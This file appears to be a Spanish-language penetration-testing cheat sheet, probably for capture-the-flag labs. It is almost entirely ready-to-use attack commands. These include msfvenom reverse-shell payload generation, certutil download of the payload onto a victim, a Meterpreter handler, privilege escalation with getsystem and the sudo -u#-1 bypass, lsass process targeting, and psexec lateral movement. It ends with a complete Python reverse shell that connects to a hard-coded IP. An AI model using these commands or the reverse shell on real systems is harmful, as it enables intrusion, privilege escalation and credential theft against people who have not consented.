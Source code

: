 
getuid = server username
sysinfo =informacion del sistema (en metaslpoit dentro de windows informacion de meterpreter x86/x64)
pgrep lsass = buscar id de lsass 
ps -S explorer.exe = buscar el proceso explorer.exe
migrate PID = seleccionamos el proceso de explorer
getsystem = para elevar privilegios
net localgroup administrators = consultar usuario del grupo administradores
ps -S lsass.exe = localizar pid de proceso de autenticacion del sistema
getprivs = podemos ver los privilegios del usuario en orden de realizar una suplantacion de tokens
dir C:\\ flag /s = buscamos de forma recursiva en todo C: por el archivo flag
whoami priv > ver privilegios windows
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ip LPORT=port -f exe > payload.exe
python -m SimpleHTTPServer 80
windows: certutil -urlcache -f http://LHOST/payload.exe > descarga  archivo en victima
msfc > use multihandler
	set payload windows/x64/meterpreter/reverse_tcp
		set LHOST
		set LPORT
Al ejecutar el payload en la victima obtenemos un meterpreter ss.
	meterpreter> search (para buscar el unattend.xml)

ENUM WEB
wfuzz -u http://IP/direcotorios/FUZZ.extension -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -c --hc 404
gobuster -u URL -w WORDLIS -t (velocidad) --no-error -k (para ignorar certs)


IMAGENES y ARCHIVOS
exiftool archivo  > ver datos del archivo
steghide extract --sf archivo.jpg > podemos ver si tiene archivo con info
strings nos trae los datos del archivo
file para ver de que tipo es un archivo
find / -perm -u=s -type f 2>/dev/null
binwalk -e ARCHIVO > nos permite extraer cualquier dato del archivo

sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt


HASH
base64 -d archivo.txt > decode base64 linux

psexec.py USUARIO@IP > nos conectamos a una maquina windows si tiene smb
	tambien esta disponible el modulo en msfconsole


ESTABILIZAR TERMINAAAAAAAAAAAAAAL
	python3 -c 'import pty;pty.spawn("/bin/bash")'
	_Ctrl+Z_
	stty raw -echo; fg
	export TERM=xterm


REVERSE SHELL SCRIPT PYTHON
	import socket
	import os
	import subprocess
	s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	s.connect(("10.9.146.146",1444))
	os.dup2(s.fileno(),0)
	os.dup2(s.fileno(),1)
	os.dup2(s.fileno(),2)
	import pty
	pty.spawn("bash")
